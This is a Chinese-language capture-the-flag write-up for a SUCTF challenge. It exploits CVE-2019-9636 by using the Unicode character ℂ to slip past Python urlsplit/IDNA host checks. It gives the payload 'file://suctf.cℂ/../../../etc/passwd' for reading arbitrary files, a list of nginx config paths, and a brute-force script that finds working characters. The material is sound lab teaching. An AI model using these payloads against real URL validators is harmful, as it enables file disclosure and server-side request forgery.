






# 考察知识点：

1. pathon  CVE-2019-9636：urlsplit不处理NFKC标准化

2. nginx 配置文件


# 1.题目给出源码

```javascript
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():

    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"

    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)

    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

源码大体意思就是host前两次不能等于'suctf.cc'

第三次等于'suctf.cc'


# 2.此题和[HCTF 2018]admin有点类似，也是利用特殊字符多次处理时会改变来造成攻击

列如：[HCTF 2018]admin



# 3.可以利用ℂ来替换.cc中的从c，在最后出来后会恢复成c,也就成功绕过了if判断，阔以修改个源码用来测试

```javascript
import urllib
from urllib import parse
from urllib.parse import urlsplit, urlunsplit

#url = []
url = "file://suctf.cℂ/../../../etc/passwd"
host = parse.urlparse(url).hostname
if host == 'suctf.cc':
    print('first')
    exit(1)
print('1 '+host)
parts = list(urlsplit(url))
host = parts[1]
if host == 'suctf.cc':
    print('sec')
    exit(2)
print('2 '+host)
newhost = []
for h in host.split('.'):
    newhost.append(h.encode('idna').decode('utf-8'))
parts[1] = '.'.join(newhost)
#去掉 url 中的空格
finalUrl = urlunsplit(parts).split(' ')[0]
host = parse.urlparse(finalUrl).hostname
if host == 'suctf.cc':
    print('3 '+host)
    print(finalUrl)
    #print(urllib.request.urlopen(finalUrl).read())
else:
    print('???')
    exit(3)


```

ℂ第一次经过host = parse.urlparse(url).hostname时变成了：ℂ

第二次：ℂ

第三次：c

符合代码的规定，接下来可以进行任意文件读取





# 4. ℂ是特殊字符，url编码

```javascript
import urllib

url = "file://suctf.cℂ/../../../etc/passwd"
print(urllib.parse.quote(url.encode('utf-8', 'replace')))
```


# 5. 访问读取到/etc/passwd文件




# 6.题目提示nginx，尝试读取nginx配置文件

- 配置文件存放目录：/etc/nginx

- 主配置文件：/etc/nginx/conf/nginx.conf

- 管理脚本：/usr/lib64/systemd/system/nginx.service

- 模块：/usr/lisb64/nginx/modules

- 应用程序：/usr/sbin/nginx

- 程序默认存放位置：/usr/share/nginx/html

- 日志默认存放位置：/var/log/nginx

- /usr/local/nginx/conf/nginx.con



知道flag文件位置读取


# 7.读取/user/flllllag




# 8.爆破可用字符的脚本

```javascript
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass


def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False

if __name__=="__main__":
    get_unicode()
```




